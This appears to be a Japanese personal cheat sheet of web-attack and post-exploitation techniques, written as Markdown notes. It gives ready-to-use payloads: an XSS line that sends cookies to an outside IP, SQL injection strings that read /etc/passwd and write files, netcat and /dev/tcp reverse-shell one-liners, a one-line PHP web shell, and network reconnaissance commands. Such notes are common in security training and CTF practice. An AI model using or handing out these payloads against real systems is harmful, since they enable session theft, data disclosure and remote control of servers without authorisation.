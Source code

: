# MyCheatSheet ver 1.0

* Decode ツール
  1. [CrackStation](https://crackstation.net/)
  2. [DenCode](https://dencode.com/ja/)
  3. [CyberChef](https://gchq.github.io/CyberChef/)
* XSS
  1. `'>"><hr>`を使用して水平線を表示
  2. `<script>alert(1)</script>`でアラート表示
  3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
* SQL Injection
  1. 入力値に`'`を入力してエラーの有無を検証
     1. エラーが帰らない場合もある。
     2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
     3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
     4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
     5. `' union select column_name from table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
     6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
* OS Command Injection
    1. 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証
* CSRF
    1. 正規のリクエストURLを使用してリンクを作成 (URL短縮サービス等を利用すると判別が困難になる。)
    2. 作成したリンクからリクエストが通るかを検証(Refererを検証)
    3. PoCジェネレーターを使用するとHTMLを簡単に作れる。
       [PoC Generator](https://security.love/CSRF-PoC-Genorator/)
* File Inclusion(Remote)
    1. クエリストリングにファイル名があるかを確認
    2. phpinfo()を実行させるphpファイルを作成
    3. ローカルでhttpサーバを立てる`python -m http.server 1030`
    4. 攻撃したいURLの`file=`にローカルのphpファイルのパスを記述
* File Inclusion(Local)
    1. ファイルアップロード時にファイルパスを確認できるかを検証
* 遠隔からのシェル
  * ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
  * アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
  * バインドシェル・リバースシェル netcatを使用
    1. 待ち受け　`nc -vlp 1027`
    2. 接続     `nc -v 192.168.XXX.XXX 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
    3. ncがない場合の接続
       1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
       2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
    4. シェルの安定化
       1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
       2. `Ctrl-z`
       3. `stty raw -echo; fg`
       4. `export SHELL=[your shell]`
       5. `export TERM=[your terminal]`
  * Webシェル
    1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
    2. アップしたphpファイルを利用してweb経由でコマンド実行
        `<?php system($_GET["cmd"]); ?>`
* PortScan
  1. ping sweet サンプル

     ``` shell
     for i in {1..254}; do ping xxx.yyy.zzz.$i -c 1 -W 1 | grep ttl | cut -d ' ' -f 4 | tr -d ':' >> ip_list.txt & done
     ```

  2. pingのレスポンスの違い

      | response | 状態                         |
      | :------: | ---------------------------- |
      | SYN,ACK  | IPが存在してPortが開いている |
      | RST,ACK  | IPが存在してPortが閉じている |
      |   None   | パケットがdropされている     |
      |          | IPが存在しない               |
      |          | タイムアウト |

  3. バナーの取得
    `printf "HEAD /index.html HTTP/1.0\r\n\r\n" | nc XXX.YYY.ZZZ.AAA`

  4. バージョン情報の収集

    ```shell
      nmap XXX.YYY.ZZZ.AAA -p 80 -sV | grep open
    ```
